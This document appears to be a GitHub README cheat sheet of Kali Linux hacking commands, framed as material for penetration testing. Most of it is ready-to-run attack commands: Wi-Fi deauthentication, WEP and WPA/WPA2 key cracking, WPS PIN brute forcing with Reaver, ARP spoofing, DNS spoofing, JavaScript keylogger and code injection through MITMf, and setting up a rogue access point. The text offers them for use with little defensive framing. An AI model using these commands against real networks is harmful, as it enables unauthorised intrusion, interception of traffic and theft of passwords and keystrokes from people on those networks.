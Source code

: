 # Useful Hacking and Penetration Testing Commands

Useful commands in Kali Linux for penetration testing and ethical hacking

## Helpful Linux Commands

1. zip a file: `tar czvf <filename>`
2. unzip file: `tar xzvf <filename>`
3. network info: `netstat`
4. last user logged in the system: `last`
5. who is logged in: `who` or `w`: 
6. network downloader: `wget <url-link>`
7. change permission: `chmod`
8. send file to a remote computer: `scp /path/to/file username@remoteIP:~/path/to/file`
9. From remote server to local computer: `scp username@remoteIP:~/path/to/file /path/to/file` 
10. View information about your own device: `ifconfig`
11. Veiw information about wireless interfaces: `iwconfig`
12. Change wireless adapter into monitor mode: `iwconfig <InterfaceName> mode monitor`



## Preconnection Attack: Airodump-ng

Discover wireless networks within range:
```bash
airodump-ng <infterface>
```

To sniff packets in the selected network: 

```bash
airodump-ng --bssid <TargetMacAddress> --channel <ChannelOfTargetNetwork> --write <FileName> <interface> 
```

The test file will be available with the .cap file. 
View the .cap file in ```wireshark test.cap```

## Deauthentication Attack

Disconnect any client fromm any network: 

```bash
aireplay-ng --dauth <NumOfPackets> -a <NetworkMacAddress> -c <TargetClientMacAddress> -e <WifiNname> <iterface>
```
## WEP Cracking

1. Capture a large number of packets with airodump-ng
```bash
airodump-ng --bssid <NetworkMacAddress> --channel <channel> --write <FileName> <interface> 
```
2. Analyse the captured packets and crack the key with aircrack-ng
```bash
aircrack-ng <.capfile>
```
3. output: KEY IS FOUND
4. Remove the colons from the key and use it as password

## Fake Authentication Attack

```bash
aireplay-ng --fakeauth 0 -a <TargetMacAddress> -h <WirelessAdapterMacAddress> <interface>
```
**NOTE: Type "ifconfig" to view wireless adapter mac address (unspec ---> first 12 digits)**

This attack injects packets in the network.

## WPA/WPA2
If WPS is Enable:
1. Displays networks with WPS enabled
```bash 
wash --interface <interface>
```
2. 
```bash
aireplay-ng --fakeauth <30> -a <TargetMacAddress> --interface <interface>
```
3. Run Reaver in another terminal window
```bash
reaver --bssid <TargetMacAddress> --channel <TargetChannel> --interface <interface> -vvv --no-associate
```
**NOTE: if bug error, then download older version of reaver and run ./reaver ____**

4. Results: WPS PIN and WPA PSK

If WPS is disable:
1. Capture Handshake between devices
```bash
airodump-ng --bssid <TargetMacAddress> --channel <Channel> --write <handshake> <interface>
```
- Wait for the handshake
- wait for a new client or disconnect a client with a fake auth attack. 
- WPA handshake stored in the file 

- Create a wordlist
```bash 
crunch [min][max][characters] -T[pattern] -o [FileName]
```
Example:
```bash
crunch 6 8 abc12 -o test.txt
```
2. Wordlist attack 
```bash
aircrack-ng <handshake.cap> -w <WordListFile.txt>
```

## Man In The Middle Attack (MITM)

1. Scan the network IP with `zenmap` 
Example: 192.168.1.1/24

2. To map IP addresses in the network and mac addresses `arp -a`
3. `arpspoof -i <interface> -t <clientIP> <gatewayIP>`
4. In another window. Tell the router I am the victim: `aprspoof -i <interface> -t <gatewayIP> <clientIP>`
5. In another window. Allow Linx be the router and forward packets: `echo 1 > /proc/sys/net/ipv4/ip_forward`

## Man in the Middle Framework (MITMf)

Download the tool `apt-get install mitmf`

```bash 
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface>
```
Use wireshark to sniff packets

## DNS Spoofing with MITMf
1. Start the web server: `service apache2 start` (var/www/html)
2. Configure the A records and add the domain you want to change into your IP address (*.___.com = <MyIPAddress>): 
`leafpad /etc/mitmf/mitmf.conf`
3. `mitmf --arp --spoof --gateway <routerIP> --target <targetIP> -i <interface> --dns`

## Capturing Screen of Target with MITMf
Takes screenshots of the target machine 
They are stored into ghe log directory `var/log/mitmf/
(--screenshotter)
```bash 
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --screen --interval <seconds>
```

## JS Keylogger with MITMf
Injects javascript key logger into a client's webpage
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --jskeylogger
```

## MITMf code injection
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --inject --js-payload <"javascriptcode">
```
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --inject --js-file </path/to/jsfile>
```

**NOTE: if working in real network:**
- Disconnect from virtual network --> Devices --> network --> uncheck (offline) 

## Creating Fake Access Point 
1. Download tool `apt-get intall manatoolkit`
2. `start-nat-simple.sh`
3. Edit the settings: `leafpad /etc/mana-toolkit/hostapd-mana.conf`
- Change interface = <interface> (wlan0)
- ssid = name of the fake network
4. Edit: `leafpad /usr/share/mana-toolkit/run-mana/start-nat/simple.sh`
- upstream = eth0
- phy = <interface> (wlan0)
5. start fake AP: `bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh`
6. Test it with phone or other machine, NOT host machine. 

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)